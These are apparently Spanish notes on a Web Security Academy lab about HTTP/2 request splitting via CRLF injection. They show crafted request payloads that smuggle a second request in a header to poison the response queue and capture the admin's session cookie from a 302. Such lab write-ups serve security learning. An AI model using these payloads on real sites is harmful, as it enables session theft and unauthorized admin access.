 ```yaml
---
layout: default
title: 14 -HTTP2 request splitting via CRLF injection
---
```

Vamos a meter una request dentro de una cabecera metiendo CRLFs
Esto lo hacemos con el objetivo de hacer response queue poisoining.

El problema es que el frontend sobreescribe la petición para añadirle una cabecera Host personalizada, por lo que la primera petición no tendrá cabecera Host y la segunda tendrá 2 :

```HTTP
:method	GET
:path	/
:authority	vulnerable-website.com
:foo	bar{\r\n}
{\r\n}
GET /admin HTTP/1.1{\r\n}
Host: vulnerable-website.com
```

Así cada petición tendrá cabecera host : 

```HTTP
:method	GET
:path	/
:authority	vulnerable-website.com
:foo	bar{\r\n}
Host: vulnerable-website.com{\r\n}
{\r\n}
GET /admin HTTP/1.1
```


Esto puede funcionar : 

```HTTP
GET /404 HTTP/2
Host: 0aa2006804d362d78012e4e500d200a4.web-security-academy.net
Foo: bar{\r\n}Host: 0aa2006804d362d78012e4e500d200a4.web-security-academy.net{\r\n}{\r\n}GET /404 HTTP/1.1
```

La cosa es que es el admin el que está navegando por la web, queremos que el admin entre al panel de /admin para que nos tire un 302 con la cookie, no que haga un 404 :

```HTTP
GET /404 HTTP/2
Host: 0aa2006804d362d78012e4e500d200a4.web-security-academy.net
Foo: bar{\r\n}Host: 0aa2006804d362d78012e4e500d200a4.web-security-academy.net{\r\n}{\r\n}GET /admin HTTP/1.1
```

